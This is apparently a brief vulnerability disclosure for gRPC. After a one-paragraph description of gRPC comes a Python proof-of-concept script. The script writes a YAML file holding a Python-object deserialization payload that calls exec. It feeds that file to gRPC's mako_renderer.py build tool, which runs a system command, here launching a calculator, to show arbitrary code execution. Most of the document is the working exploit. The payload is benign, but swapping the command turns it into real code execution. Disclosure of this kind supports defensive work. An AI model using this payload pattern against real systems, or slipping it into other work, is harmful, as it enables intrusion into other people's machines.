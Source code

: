 # Description
gRPC is a modern, open source, high-performance remote procedure call (RPC) framework that can run anywhere. gRPC enables client and server applications to communicate transparently, and simplifies the building of connected systems.
# POC
* run the exploit file
```
import os
#os.system("git clone https://github.com/grpc/grpc.git")
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open("exploit.yml","w+").write(payload)
os.chdir("grpc/tools/buildgen/")
cmd = """python3 mako_renderer.py -d ../../../exploit.yml"""
os.system(cmd)
```
* calc will be popped up as a result of arbitrary code execution 
